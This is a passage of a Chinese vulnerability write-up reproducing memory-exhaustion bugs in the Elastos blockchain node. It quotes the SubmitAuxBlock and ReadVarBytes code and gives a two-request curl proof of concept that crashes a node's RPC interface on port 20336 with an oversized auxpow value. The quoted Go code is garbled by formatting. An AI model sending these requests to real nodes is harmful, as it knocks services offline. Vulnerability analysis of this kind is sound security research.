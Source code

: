漏洞复现：

[![](https://mpt.135editor.com/mmbiz_gif/OGRRTF3bicTXd9q0sPUB1YMKPbxS1MEB6Wog39EcoKGNbtShHrpxItc6cmz0Akia00oDaU3y4shHjVWwjBjlXibTg/640?wx_fmt=gif)](https://mpt.135editor.com/mmbiz_gif/OGRRTF3bicTXd9q0sPUB1YMKPbxS1MEB6Wog39EcoKGNbtShHrpxItc6cmz0Akia00oDaU3y4shHjVWwjBjlXibTg/640?wx_fmt=gif)

### DVP-2018-08817

还是上面的Deserialize函数引起的OOM，不过触发点不同。

这次的触发点是在servers/interfaces.go中的SubmitAuxBlock函数中：

```
func SubmitAuxBlock(param Params) map[string] interface `{``}` `{`  blockHash,
    ok: =param.String("blockhash") if ! ok `{`
        return ResponsePack(InvalidParams, "parameter blockhash not found")  
    `}`
    var msgAuxBlock * Block
    if msgAuxBlock,
    ok = LocalPow.MsgBlock.BlockData[blockHash]; ! ok `{`    log.Trace("[json-rpc:SubmitAuxBlock] block hash unknown", blockHash) return ResponsePack(InternalError, "block hash unknown")  
    `}`  auxPow,
    ok: =param.String("auxpow") if ! ok `{`
        return ResponsePack(InvalidParams, "parameter auxpow not found")  
    `}`
    var aux aux.AuxPow  buf, _: =HexStringToBytes(auxPow) if err: =aux.Deserialize(bytes.NewReader(buf));
    err != nil `{`    log.Trace("[json-rpc:SubmitAuxBlock] auxpow deserialization failed", auxPow) return ResponsePack(InternalError, "auxpow deserialization failed")  
    `}`
    //略
    return ResponsePack(Success, true)
`}`
```

根据如上代码可以发现，RPC接口传过来的auxpow参数经过转为bytes后会传入变量buf，最终变量buf会被带入Deserialize函数中，所以整个过程也是可控的，唯一不足的是这个触发点还需要提供另外一个参数blockhash，如果不提供这个参数或者提供有误的话会没法往下执行，不过好在正好还有一个CreateAuxblock函数，利用此函数可以创建一个Auxblock并得到它的blockhash。

PoC：

```
curl--data - binary '`{`"method":"createauxblock","params":`{`"paytoaddress":"0701100000000196ffffffffff"`}``}`' - H 'Content-Type:application/json'http: //*.*.*.*:20336
curl--data - binary '`{`"method":"submitauxblock","params":`{`"blockhash":"上个请求返回的blockhash","auxpow":"ffffffffffffffffff"`}``}`' - H 'Content-Type:application/json'http: //*.*.*.*:20336
```

### DVP-2018-10793

最后这一个漏洞问题不是出在亦来云公链源码中，而是出在亦来云公链的官方依赖包(Elastos.ELA.Utility)中

common/serialize.go漏洞代码片段：

```
func ReadVarBytes(reader io.Reader)([] byte, error) `{`    val,
    err: =ReadVarUint(reader, 0) if err != nil `{`
        return nil,
        err    
    `}`    str,
    err: =byteXReader(reader, val) if err != nil `{`
        return nil,
        err      
    `}`
    return str,
    nil
`}`
```
